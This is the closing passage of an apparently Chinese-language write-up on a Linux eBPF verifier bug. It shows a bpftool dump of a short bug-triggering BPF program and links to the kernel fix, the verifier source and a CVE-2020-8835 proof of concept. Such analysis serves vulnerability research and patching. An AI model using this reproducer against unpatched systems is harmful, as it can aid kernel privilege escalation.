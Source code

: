 ```
root@syzkaller:~# ./bpftool p d x i 5
   0: (b7) r0 = 808464432
   1: (7f) r0 &gt;&gt;= r0
   2: (14) w0 -= 808464432
   3: (07) r0 += 808464432
   4: (b7) r1 = 808464432
   5: (de) if w1 s&lt;= w0 goto pc+0
   6: (07) r0 += -2144337872
   7: (14) w0 -= -1607454672
   8: (76) if w0 s&gt;= 0x303030 goto pc+1
   9: (05) goto pc-1
  10: (95) exit
```



## 链接

[1] [https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=f2d67fec0b43edce8c416101cdc52e71145b5fef](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=f2d67fec0b43edce8c416101cdc52e71145b5fef)

[2] [https://elixir.bootlin.com/linux/v5.6-rc5/source/kernel/bpf/verifier.c#L9984](https://elixir.bootlin.com/linux/v5.6-rc5/source/kernel/bpf/verifier.c#L9984)

[3] [https://github.com/DayJun/Blogs/blob/master/Articles/CVES/CVE-2020-8835/poc.c](https://github.com/DayJun/Blogs/blob/master/Articles/CVES/CVE-2020-8835/poc.c)

[4] [https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/snapshot/linux-641cd7b06c911c5935c34f24850ea18690649917.tar.gz](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/snapshot/linux-641cd7b06c911c5935c34f24850ea18690649917.tar.gz)
